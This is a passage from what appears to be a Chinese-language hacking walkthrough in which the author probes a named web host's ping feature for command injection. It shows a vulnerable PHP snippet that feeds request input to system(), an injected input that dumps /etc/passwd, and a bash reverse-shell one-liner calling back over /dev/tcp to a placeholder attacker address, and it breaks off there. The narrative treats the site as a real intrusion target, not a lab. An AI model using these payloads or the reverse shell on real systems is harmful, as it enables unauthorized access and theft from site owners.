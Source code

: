 ### 2.2.2.Web应用

现在我们已经搜集到了一个url列表，接下来就是去找出这些网站的web漏洞来进一步执行攻击。

> 提示：找web漏洞需要检查发送到服务器的所有参数。为了正确执行此操作，采用Burp Suite或ZAP等工具是最有帮助的。它们拦截每个HTTP请求并更改HTML页面的内容，绕过一些基本的保护，如隐藏字段、未受保护字段等。它们还能很好地概览网站处理的所有参数，这些参数能让我们注入更多的恶意代码。

#### 1、up.sph-assets.com

第一个网站是初级的，只提供测试服务器是否启动的功能。在我看来，这是一家小型公用事业公司，由一位匆忙的管理人员组成，他想在一个懒洋洋的周日下午，在家里舒舒服服服地履行自己的职责。 ![](.gitbook/assets/17.ping.png)

正如您可能注意到的，输出的结果与Linux系统上ping命令的输出非常相似。它只需将探测发送到远程服务器并等待回复。 ![](.gitbook/assets/18.linuxping.png)

也许，只是也许，网站使用我们的输入（输入的域名）在Linux上创建一个ICMP请求并返回结果在PHP上，理论上应该是这样的:

```text
<?php    system("ping -c1 ".$_GET['host')]; ?>
```

如果我们的输入$\_GET\['host'\]变量在没有任何保护的情况下连接起来，如上面的示例所示，我们可以欺骗web应用程序执行其他系统命令。为此，我们需要添加一个类似“&”的连接字符（“&&”、“；”甚至“\|”都可以）。例如，如果网站确实存在漏洞，则除了执行ping命令外，以下输入还将成功列出用户:

```text
www.google.com ; cat /etc/passwd
```

![](.gitbook/assets/19.addcmd.png)

有趣！我们试试更漂亮的。一个单行的反弹shell，让我们可以交互访问机器，怎么样:

```text
www.google.com; bash -i >& /dev/tcp/FRONT_GUN_IP/443 0>&1
```

